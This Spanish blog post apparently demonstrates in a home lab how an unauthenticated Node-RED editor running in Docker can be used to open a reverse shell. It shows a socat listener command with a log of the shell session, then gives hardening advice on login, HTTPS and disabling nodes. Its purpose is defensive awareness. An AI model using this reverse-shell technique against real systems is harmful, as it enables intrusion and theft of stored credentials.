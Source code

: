 ```yaml
---
title: '¿Por qué deberías proteger Node-RED?'
date: '2023-01-15'
tags: []
draft: false
authors: ['default']
summary: 'Reto CTF: Node-RED es una herramienta de programación visual con nodos que se comunican entre sí. Se pueden aprovechar vulnerabilidades como ejecución de comandos y acciones de entrada/salida por TCP para comprometer el sistema. Es importante proteger Node-RED mediante el uso de autenticación, HTTPS y la deshabilitación de nodos innecesarios. No debemos confiarnos solo por usar contenedores.'
images: ["/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg", "/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp"]
---
```


![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp)

## ¿Qué es Node-RED?

Esta es la parte más aburrida del post, por lo que me voy a permitir el lujo de copiarlo de otro sitio en Internet.


> Node-RED es una herramienta de programación visual que se implementa en dispositivos controladores de hardware. Trabaja mostrando de manera visual las relaciones y funciones de manera que se pueda programar sin escribir. Es un panel de flow al que se pueden incorporar nodos que se comuniquen entre ellos y puede instalarse en equipos como ordenadores Windows, Linux, o en servidores en la nube. Este sistema de representaciónpuede ayudarte a visualizar gráficamente el flujo de la información y consiste en su representación gráfica.

En otras palabras, es una plataforma que mediante cajitas que hacen distintas cosas, eres capaz de crear un **workflow** de una forma visual y ver su representación de un solo vistazo.

## Preparación del escenario

1. Arranco **Docker** en mi ordenador de casa con **Windows 11**.


```
@ikero ➜ ~ docker run -it -p 1880:1880 -v node_red_data:/data --name mynodered nodered/node-red
```
2. Mapeo el puerto *1880* del contenedor al *1880* de **Windows**, para que sea visible por otros equipos.

3. Confirmo que el contenedor está funcionando correctamente y podemos empezar con la prueba de concepto.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp)

> ⚠️Esta prueba se realiza utilizando contenedores Docker, pero es también posible hacerlo sin utilizar ninguna tecnología de contenedorización.

## De qué forma es vulnerable

Arranco una máquina virtual de tal forma que simularemos ser el atacante de la prueba. El esquema es el siguiente.

![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg)

Mi máquina virtual es capaz de acceder al puerto *1880* del PC con *Windows 11* corriendo el contenedor de **Node-RED**.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp)

Los nodos de los cuales voy a sacar provecho son los siguientes:

* **exec**: Ejecuta un comando de sistema y devuelve su salida.
* **tcp in**: Provee una muestra de acciones de entrada por TCP.
* **tcp out**: Provee una muestra de acciones de salida por TCP.

Son solamente necesarios estos tres nodos para comprometer el sistema. El siguiente flujo entabla una **shell reversa** por el puerto *9999*

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp)

Me pongo en escucha desde la máquina atacante con la IP 192.168.1.138 y veamos que ocurre.


```
sudo socat -d -d TCP-LISTEN:9999 STDOUT
# 2023/01/15 02:57:47 socat[64557] W ioctl(5, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
# 2023/01/15 02:57:47 socat[64557] N listening on AF=2 0.0.0.0:9999
# 2023/01/15 02:57:56 socat[64557] N accepting connection from AF=2 192.168.1.132:64267 on AF=2 192.168.1.138:9999
# 2023/01/15 02:57:56 socat[64557] N using stdout for reading and writing
# 2023/01/15 02:57:56 socat[64557] N starting data transfer loop with FDs [6,6] and [1,1]
whoami
# node-red
ls /
# bin
# data
# dev
# etc
# healthcheck.js
# home
# lib
# media
# mnt
# opt
# proc
# root
# run
# sbin
# srv
# sys
# tmp
# usr
# var
```
Ya tenemos acceso a la Shell del contenedor Docker. No debemos pensar bajo ningún concepto que por el hecho de usar contenedores ya estamos protegidos. Existen varias vulnerabilidades de tipo [Container Escape Vulnerability](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities) que hace que no debamos bajar la guardia simplemente por el hecho de usar contenedores.

A partir de aquí, debes pensar que cualquier cosa que estuviese dentro de tu sistema (o en otros sistemas, porque también se puede acabar saltando hacia otros equipos vulnerables del entorno) ha podido ser robada. Ya sean **Api Keys** que utilizas para subir los datos a un proveedor **Cloud** o contraseñas para acceder a otros sistemas que hayas pensado que almacenarlos dentro de una carpeta del contenedor era una buena idea.

## Cómo puedo hacerlo (un poco) más seguro.

Lo primero es seguir las recomendaciones que dice su propia página en https://nodered.org/docs/user-guide/runtime/securing-node-red.

En la primera línea nos encontramos el siguiente mensaje.

> ⚠️By default, the Node-RED editor is not secured - anyone who can access its IP address can access the editor and deploy changes.

A partir de aquí, lo que debe ser un **MUST** en nuestra configuración debe ser:

* Habilitar la ventana de Login en todos los casos.
* Separar credenciales entre los editores de los flujos y los usuarios normales.
* Habilitar HTTPs. Aunque sea con certificados autofirmados.
* Deshabilitar aquellos nodos que creamos que no son necesarios para nuestro tipo de trabajo. O mejor aún, deshabilitar todos y habilitar SOLO aquellos que son necesarios.

Los flujos de Node-RED son, al fin y al cabo, una manera de desarrollar software "más sencilla". El hecho de ver una interfaz amigable no debe despistarnos de lo que es la plataforma en sí. Abrir la puerta a que cualquiera pueda desarrollar sus flujos sin ningún tipo de cuidado, puede ser peligroso.

